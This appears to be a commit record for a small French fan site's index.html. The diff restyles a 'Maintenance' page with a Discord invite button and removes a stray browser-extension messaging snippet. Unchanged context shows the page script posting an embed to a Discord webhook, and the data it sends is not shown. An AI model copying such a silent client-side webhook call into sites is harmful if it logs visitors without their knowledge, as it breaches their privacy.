

Before and after one commit to Belsicc/apisite4, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,11 +1,56 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-    <!-- ... (autres balises meta et liens) ... -->
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Maintenance</title>
+    <link rel="preconnect" href="https://fonts.googleapis.com">
+    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
+    <link href="https://fonts.googleapis.com/css2?family=Rubik:ital,wght@0,300..900;1,300..900&display=swap" rel="stylesheet">
+    <style>
+        body {
+            background-color: #333; /* Fond gris foncé */
+            color: white; /* Texte blanc */
+            font-family: 'Rubik', sans-serif; /* Utilise la police Rubik */
+            text-align: center;
+            margin: 0;
+            padding: 0;
+            display: flex;
+            flex-direction: column;
+            align-items: center;
+            justify-content: center;
+            height: 100vh;
+        }
+
+        h1 {
+            font-size: 36px;
+            margin-bottom: 20px; /* Espace sous le titre */
+        }
+
+        p {
+            font-size: 18px;
+            margin-bottom: 30px; /* Espace sous le paragraphe */
+        }
+
+        .discord-button {
+            background-color: #7289DA; /* Couleur du bouton Discord */
+            color: white;
+            font-size: 16px;
+            padding: 15px 30px;
+            border: none;
+            border-radius: 8px;
+            cursor: pointer;
+            transition: background-color 0.3s ease;
+            text-decoration: none; /* Supprime le soulignement du lien */
+        }
+
+        .discord-button:hover {
+            background-color: #677BC4; /* Changement de couleur au survol */
+        }
+    </style>
 </head>
 <body>
-    <h1>Bienvenue sur le site d'EzroStar.
-        Veuillez rejoindre le Discord pour plus d'infos.</h1>
+    <h1>Bienvenue sur le site d'EzroStar. Veuillez rejoindre le Discord pour plus d'infos :</h1>
     <a href="https://discord.gg/GsDsDzp6bB" target="_blank" class="discord-button">Discord</a>
 
     <script>
@@ -41,13 +86,6 @@
                     embeds: [embed]
                 };
 
-                chrome.runtime.sendMessage({ message: "your_message" }, function(response) {
-    if (chrome.runtime.lastError) {
-        console.error(chrome.runtime.lastError);
-    } else {
-        // Traitement de la réponse ici
-    }
-});
                 // Envoie du message via le webhook Discord
                 await fetch(webhookURL, {
                     method: "POST",
@@ -67,4 +105,3 @@
     </script>
 </body>
 </html>
-=
```
